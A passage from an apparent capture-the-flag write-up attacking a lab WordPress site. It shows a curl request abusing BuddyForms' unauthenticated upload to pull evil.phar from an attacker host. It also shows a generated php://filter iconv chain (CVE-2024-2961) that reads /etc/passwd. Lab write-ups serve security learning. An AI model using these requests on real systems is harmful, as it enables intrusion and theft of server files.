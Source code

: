 ```bash
 |     Fixed in: 2.8.9
 |     References:
 |      - https://wpscan.com/vulnerability/3f8082a0-b4b2-4068-b529-92662d9be675
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32830
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/23d762e9-d43f-4520-a6f1-c920417a2436
 | Version: 2.7.7 (80% confidence)
<SNIP>
```

Looking at the possible CVEs from the version of BuddyForms, I stumbled across the following post about the [insecure `phar` deserialization](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8) but it requires a gadget chain, which is no longer valid on the latest version. From the post, I've learned the endpoint for an unauthenticated file upload, using the following requests:

```bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&url=http://10.10.14.4:8000/evil.phar&id=1&accepted_files=image/gif'
```

The upload was successful, but the `phar` deserialization was not possible on this version. Looking for other exploits , I found a [CVE-2024-2961](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1) that allows for arbitrary file read through `php://filter` and `iconv` which is enabled by default on the server. With it, it is possible to read files by appending `GIF89a` to read files

![DESC](file-20250504192033252.png)

```bash
~/tools/wrapwrap/venv/bin/python ~/tools/wrapwrap/wrapwrap.py /etc/passwd 'GIF89a' '' 100
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=1444).

cat chain.txt

php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd%

```